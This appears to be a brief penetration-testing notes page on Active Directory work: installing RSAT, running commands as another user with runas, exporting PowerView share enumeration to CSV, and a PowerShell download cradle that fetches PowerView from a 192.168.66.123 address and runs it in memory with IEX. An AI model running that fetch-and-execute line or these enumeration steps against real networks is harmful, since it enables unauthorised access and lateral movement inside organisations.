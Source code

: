 



## Installing Remote Server Administation Tools 

You can download it from powershell like this:

```
Enable-WindowsOptionalFeature -Online -FeatureName RSATClient-Roles-AD-Powershell

import-module activedirectory
```

If that doesnt work, you need to download it, just google Rmote Server ADministation tool WIndows 10, 8 or whatever.
Download it. Install it. Restart the the computer.

Open up `Control Panel / Turn Windows Features on and Off / Rmote Server ADministation Tools / Role Administation TOols / AD DS and AD LDS tools / Active directory module for windows powershell`

## Runas / Testing a user account

Say to get access to creds from a user. Or just want to run a program in the context of another user. Kind of like SUDO put over the network, you can do:


```
runas /user:USERNAME@domain.local cmd.exe
or
runsas /user:domain.local\USERNAME
```

## Export to CSV
You can always pipe the return data to a CSV file, like this:


```powerview
find-domainshare -CheckShareAccess | Export-Csv qwe.csv
```


## Download module an inject into memory

If you are using PowerView, remember to use the Dev-version, since it is correct with the documentation. 
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.66.123/PowerView.ps1');
```
